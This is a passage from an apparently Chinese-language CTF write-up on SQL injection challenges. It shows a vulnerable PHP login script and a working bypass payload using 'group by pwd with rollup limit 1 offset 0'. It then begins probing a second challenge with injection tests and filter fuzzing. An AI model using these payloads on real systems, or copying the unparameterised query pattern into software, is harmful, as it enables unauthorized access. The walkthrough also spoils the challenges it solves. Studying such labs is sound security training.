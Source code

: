 ```php
$con = mysql_connect("XXXXXX","XXXXXX","XXXXXX");
if (!$con){
	die('Could not connect: ' . mysql_error());
}
$db="XXXXXX";
mysql_select_db($db, $con);
$sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
$query = mysql_query($sql);
if (mysql_num_rows($query) == 1) {
    $key = mysql_fetch_array($query);
    if($key['pwd'] == $_POST['pwd']) {
        print "CTF{XXXXXX}";
    }else{
        print "亦可赛艇！";
    }
}else{
	print "一颗赛艇！";
}
mysql_close($con);
```
发现其实只需要查询到一条数据，并且密码匹配就可以得到flag。
因为过滤条件中有union，所以无法利用union来构建一个用户进行登录。
但是可以使用with rollup来构建一个空的密码。
![withrollup](withrollup.png)

所以我们利用它还需要两个条件
1. 必须有数据，才能构建。所以利用`username=''=''`永真条件来得到所有用户数据
2. 利用limit来读取估计条目。逗号被过滤可以利用limit offset来绕过


最后构建payload为`uname='='' group by pwd with rollup limit 1 offset 0 #&pwd=`
调整offset来调整取得第几条数据，因为是构建的必定在最后一条。测试发现只有2个用户，所以取值2
得到flag


<br>

### 简单的sql注入之3
进入页面，提示说到底过滤了什么
还是先判断注入点
```sql
?id=1 # hello
?id=2 # hello
?id=3 # hello
?id=4 # 无回显
?id=4-1 # 无回显
?id=3aaaa # hello
?id=' # 出现报错信息，之后可以尝试报错注入
```
可以猜测有语句可能是这样`select * from users where id = ''`
开始判断过滤的情况
```
?id=0' or ''='' %23    # hello   对# = or 空格都没做过滤
```
利用bp做fuzz测试，发现大部分字符都没有被过滤，sleep过滤了，过滤会回显Don't!
